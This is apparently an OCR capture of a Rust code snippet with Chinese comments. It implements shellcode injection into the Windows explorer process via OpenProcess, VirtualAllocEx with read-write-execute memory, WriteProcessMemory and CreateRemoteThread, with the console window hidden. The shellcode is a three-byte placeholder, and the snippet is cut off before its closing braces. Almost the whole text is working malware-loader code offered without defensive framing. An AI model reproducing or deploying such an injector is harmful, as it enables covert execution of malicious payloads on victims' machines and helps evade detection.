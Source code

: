 这里以CreateRemoteThread来执行

```plain
#![windows_subsystem = "windows"]

use std::ptr;
use sysinfo::{PidExt, ProcessExt, System, SystemExt}; 
use windows_sys::Win32::{
    Foundation::*,
    System::{Diagnostics::Debug::*, Threading::*, Memory::*},
};

fn main() {
    let shellcode: [u8; 3] = [0xfc, 0x48, 0x83, ];  // shellcode

    let s = System::new_all();
    let process_id: u32 = s
        .processes_by_name("explorer") // 注入explorer进程
        .next() 
        .unwrap() 
        .pid() 
        .as_u32(); 

    inject(&shellcode, process_id);
}


fn inject(shellcode: &[u8], process_id: u32) {
    unsafe {
        // 使用OpenProcess获取进程的句柄
        let p_handle = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);

        // 分配RWX内存
        let r_ptr = VirtualAllocEx(
            p_handle,
            ptr::null(),
            shellcode.len(),
            MEM_COMMIT,
            PAGE_EXECUTE_READWRITE,
        );

        // 写入shellcode到注入的进程
        let mut bytes_written = 0;
        WriteProcessMemory(
            p_handle,
            r_ptr,
            shellcode.as_ptr() as _, 
            shellcode.len(),
            &mut bytes_written,
        );

        // 使用CreateRemoteThread来执行
        let t_handle = CreateRemoteThread(
            p_handle,
            ptr::null(),
            0,
            Some(std::mem::transmute(r_ptr)), 
            ptr::null(),
            0,
            ptr::null_mut(),
        );

        CloseHandle(t_handle);
        CloseHandle(p_handle);
```